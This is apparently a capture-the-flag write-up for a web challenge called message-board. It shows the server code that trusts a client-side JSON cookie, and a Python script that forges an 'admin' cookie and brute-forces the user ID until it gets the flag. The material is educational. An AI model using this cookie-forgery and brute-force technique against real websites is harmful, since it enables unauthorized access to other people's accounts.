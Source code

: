 # web/message-board
### goose

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).
### Downloads
[message-board-master](Assets/message-board-master)

## Solution
### Discovery
First, we try logging in with the provided username and password. Once inside, we find that there is a cookie set
`userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D`<br/>
Decoding it from URL encoding gives us: 
`userData=j:{"userID":"972","username":"kupatergent"}`<br/><br/>
In the source code, under [app.js](Assets\message-board-master\message-board-1-master\app.js), we find an interesting chunk of code
```js
const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
```
This means that we need to set our cookie to have a 3-digit userID, with the username `admin`<br/>

### Brute-forcing
We create a short python script that sends GET requests, with cookies set, and iterating userID from 001 to 999<br/>
```python
import requests

url = 'https://message-board.hsc.tf'
for i in range(1000):
    if len(str(i))==1: a = "00"+str(i)
    elif len(str(i))==2: a = "0"+str(i)
    else: a = str(i)
    c = 'j%3A%7B%22userID%22%3A%22'+a+'%22%2C%22username%22%3A%22admin%22%7D'
    r = requests.get(url, cookies={'userData':c})
    if "no flag for you" not in r.text:
        print(r.text)
        break
    print(i)
```
Running it, we find out that the userID for admin is 767<br/>
We are also able to find the flag in the response

> flag{y4m_y4m_c00k13s}